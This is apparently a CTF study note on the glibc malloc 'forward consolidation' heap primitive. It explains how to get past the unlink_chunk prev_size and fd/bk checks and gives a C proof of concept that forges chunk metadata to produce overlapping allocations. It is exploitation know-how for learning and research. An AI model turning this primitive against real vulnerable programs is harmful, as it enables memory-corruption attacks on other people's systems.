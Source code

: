 ## forward consolidation

**Purpose:** We can have two separate chunks allocated to the same space

**Require:** Have an ability to change the metadata of the allocated chunks

**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass

- [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
- [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *victim, *consolidated_chunk, *chunk2;

    victim = malloc(0x410);
    consolidated_chunk = malloc(0x80);
    chunk2 = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup consolidated_chunk->next prev_size & size fields */
    chunk2[-2] = 0x90;
    chunk2[-1] = 0x20;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim);
    // After this, our victim chunk would be freed, and due to fwd consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *new_chunk = malloc(0x410);
    long *overlaping_chunk = malloc(0x80);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```

## Reference

- https://github.com/lieuhoaisa/CTFnotes/blob/main/heap/primitives/malloc/foward_consolidation/readme.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/fwd_consolidation/readme.md
